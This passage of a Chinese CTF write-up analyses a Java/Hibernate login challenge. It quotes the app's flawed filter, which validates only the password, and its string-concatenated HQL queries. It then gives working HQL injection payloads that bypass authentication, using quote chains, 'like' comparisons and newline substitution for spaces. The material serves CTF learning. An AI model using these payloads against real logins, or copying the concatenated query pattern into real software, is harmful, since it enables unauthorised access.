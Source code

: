 ```xml
    <bean id="userService" class="com.cuitctf.service.impl.UserServiceImpl">
        <property name="userDao">
            <ref bean="userDAO"/>
        </property>
    </bean>
</beans>
```

泄露出更多的class名称

可以看到之前的isValid并没有使用

```java
//waf  注意只进行了password_matcher.find()
public List<User> loginCheck(String name, String password) {
    name = name.replaceAll(" ", "");
    name = name.replaceAll("=", "");
    Matcher username_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(name);
    Matcher password_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(password);
    if (password_matcher.find()) {
      return this.userDao.loginCheck(name, password);
    }
    return null;
  }

//HQL语句
public class UserDaoImpl
  extends HibernateDaoSupport
  implements UserDao
{
  public List<User> findUserByName(String name) { return getHibernateTemplate().find("from User where name ='" + name + "'"); }
  
  public List<User> loginCheck(String name, String password) { return getHibernateTemplate().find("from User where name ='" + name + "' and password = '" + password + "'"); }
}
```

这里要进行HQL注入

无空格->```/**/```或换行符(不知道为啥这里的```/**/```不行换换行符就可了...) 

无等号->or''like''或者‘1’>'0'

根据**表达式从右至左结合**的规则有payload

```sql
user.name='or''like''or''like'&user.password=1
->
from User where name =''or''like''or''like'' and password = '1'

或
user.name=admin'or'1'>'0'or%0Aname%0Alike'admin&user.password=1
->
from User where name ='admin'or'1'>'0'or
name
like'admin' and password = '1'
```
